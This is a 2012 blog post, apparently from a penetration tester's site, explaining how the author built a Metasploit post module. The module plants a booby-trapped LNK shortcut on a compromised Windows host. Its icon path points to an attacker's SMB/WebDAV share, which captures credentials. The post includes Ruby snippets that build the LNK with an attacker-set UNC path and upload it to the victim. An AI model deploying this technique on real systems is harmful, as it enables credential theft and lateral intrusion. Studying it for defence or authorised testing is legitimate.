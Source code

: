 ---
author: mubix
comments: true
date: 2012-02-19 05:57:02+00:00
layout: post
title: Developing the LNK Metasploit post module with Mona
categories:
- lnk
- metasploit
- mona
---

I have been using the LNK trick I talked about in my [last post](/blog/2012/02/11/ms08_068-ms10_046-fun-until-2018) for a while, but always needing a Windows machine to create the LNK file. When I decided to write a post about it, I wanted to put the stipulation for myself that I would finally develop a way to get it done with out having to lug around a VM or spin one up every time I needed to change it's target.

Of course the first place I looked was Meterpreter's Railgun (direct windows API calling within meterpreter). But to do it with Railgun I would have to develop a way to [work with COM objects](http://msdn.microsoft.com/en-us/library/aa969393.aspx). Something that I don’t believe is built into Railgun (yet… /me nudges chao-mu). The second place I looked was to see if I could just build an LNK file from scratch [using the spec](http://msdn.microsoft.com/en-us/library/dd871305(PROT.10).aspx).. ya…. that didn’t go so..*zzzZZZzzzzzzzZzzz

Enter [mona](http://redmine.corelan.be/projects/mona), the [Corelan Team’s](http://www.corelan.be/) exploit development plugin for [Immunity Debugger](http://immunityinc.com/products-immdbg.shtml). Now, usually it is used exactly as intended, as an exploit development tool, and I guess you could consider my use of it as an extension of that as well. But, anyways, one of Mona’s many and probably one of the least well known functions is ‘header’. What this function does is simply output a ruby version of the file broken into ASCII and binary parts. That’ll make much more sense in a sec, back to the problem. I need to recreate a file in a way I can manipulate it on the fly with enough agility to be useful to others in a post module without using the spec or Railgun to assist.

We start off with the maliciously altered LNK file, and an up to date version of Immunity and mona:

![](/images/postimages/201202_mona_1.png)

I copied the shortcut file to the C drive so I didn’t have to specify a huge path in the mona command, and issued:

`“!mona header C:\autoexec.lnk”`

![](/images/postimages/201202_mona_2.png)

As you can see, mona breaks up the binary into ‘understandable’ portions, so if it sees a string is keeps it together, if it sees unicode, it actually uses the Rex ruby libraries. You can try it yourself and scroll through the results but when I saw:

```ruby
header << Rex::Text.to_unicode("C:\%\\\\192.168.100.100\\w00t\\bogusimage.png`")
```

I knew I was golden. Quick note: pay close attention when you edit the output of this command in a text editor, initially I didn’t notice the ‘tick’ ( ` ) at the end of the share string and it cause me a lot of grief.

Cool, so I have a bit of ruby that puts the contents of my LNK file into a ruby variable. Now what?

Now I have 3 challenges:

1. It needs to have a user defined target IP at the very least and anything else I work into a variable option for the user.
2. It needs to upload the file to the exploited system.
3. It needs to be up to code on the Metasploit coding standards

Changing the line I found for the share name into this:


```ruby
lnk << Rex::Text.to_unicode("\\\\#{datastore['LHOST']}\\#{datastore['SHARENAME']}\\#{datastore['ICONFILENAME']}`")
```

‘datastore’ is used as the container for variable set by default or by the user using the module. Adding those option for the user is pretty easy. You just add the following to the ‘register_options’ section of your module:


```ruby
OptAddressRange.new("LHOST", [ true, "Host listening for incoming SMB/WebDAV traffic", nil]),
OptString.new("SHARENAME", [ true, "Share name on LHOST", "share1"]),       
OptString.new("ICONFILENAME", [ true, "File name on LHOST's share", "icon.png"])
```

OptAddressRange is used instead of a string because it has a bit of validation that you are actually using something that either resembles an IP address or a hostname.

Problem 1 solved. Problem 2 was just as easy, the following line:

```
file = client.fs.file.new(datastore['LNKFILENAME'], 'wb')
```

creates a new file on the victim, and ‘file.write(lnk)’ writes the binary contents of the ‘lnk’ variable into it.

Problem 3 is much more tricky, but here is the path to wisdom:

```
ruby /metasploit-directory/tools/msftidy.rb /path/to/my/module/evil.rb
```

Hope this helps spur people into trying their hand at developing some modules of their own.
